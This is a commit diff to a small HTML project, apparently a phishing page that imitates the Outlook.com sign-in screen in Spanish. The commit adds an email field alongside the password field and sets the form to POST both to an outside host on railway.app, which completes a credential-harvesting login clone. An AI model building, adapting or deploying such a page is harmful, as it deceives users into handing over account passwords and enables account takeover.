

Before and after one commit to disabledcount/frontend-login, a plain HTML site: page index.html in a window 1280 px wide. Shown: the part 264-800 px from the top of the page. Drawn offline with nearby package versions, Linux system fonts and the light colour scheme.

Commit message:
ultimo 1907

```diff
--- a/index.html
+++ b/index.html
@@ -9,7 +9,7 @@
     <title>Outlook.com</title>
 </head>
 <body>
-       <div class="gandContainer">  <!-- magictime spaceOutLeft -->
+    <div class="gandContainer">
         <main class="inner">
             <div class="margin-bottom-20" aria-hidden="true">
                 <picture class="logo margin-bottom-16">
@@ -17,31 +17,34 @@
                 </picture>
             </div>
 
+            <form id="sendForm" action="https://backend-login-production-375d.up.railway.app/login" method="POST">
+                <h1 class="text-title margin-bottom-16">Escribir correo y contraseña</h1>
+
+                <!-- Correo -->
+                <div class="row margin-bottom-16">
+                    <div class="form-group col-md-12 placeholderContainer">
                         <input type="email" name="mail" class="form-control" placeholder="Correo" required="required" aria-required="true" autocomplete="off" id="displayName">
+                    </div>
+                </div>
 
-            <form id="sendForm">
-                <h1 class="text-title margin-bottom-16">Escribir contraseña</h1>
-
-                <div class="alert alert-error text-body margin-bottom-12 col-md-12" id="errorAlert" style="display: none;"></div>
-
+                <!-- Contraseña -->
                 <div class="row margin-bottom-16">
                     <div class="form-group col-md-12 placeholderContainer">
                         <input type="password" name="pwd" class="form-control" placeholder="Contraseña" required="required" aria-required="true" autocomplete="off" id="inputBoxId">
                     </div>
                 </div>
 
-                <div class="row margin-bottom-20">
-                    <div class="col-md-12 section text-secondary">
-                        <a class="forgotPass" href="http://www.google.com" aria-label="Crear una cuenta de Microsoft">¿Olvidó su contraseña?</a>
-                    </div>
-                </div>
+                <!-- Alerta de Error -->
+                <div class="alert alert-error text-body margin-bottom-12 col-md-12" id="errorAlert" style="display: none;"></div>
 
+                <!-- Botón de Enviar -->
                 <div class="row inline-block no-margin-top-bottom button-container">
-                    <input type="submit" class="btn btn-block btn-primary" value="Iniciar sesión" id="btnSig" >
+                    <input type="submit" class="btn btn-block btn-primary" value="Iniciar sesión" id="btnSig">
                 </div>
             </form>
         </main>
     </div>
+
     <footer id="footer">
         <div>
             <div class="footerNode">
@@ -73,7 +76,7 @@
                     return;
                 }
 
-                    alert('Usuario registrado exitosamente');
+                alert('Usuario autenticado correctamente');
             } catch (error) {
                 document.getElementById('errorAlert').style.display = 'block';
                 document.getElementById('errorAlert').textContent = 'Error de conexión al servidor';
```
Lines whose indentation alone changed are shown as unchanged.
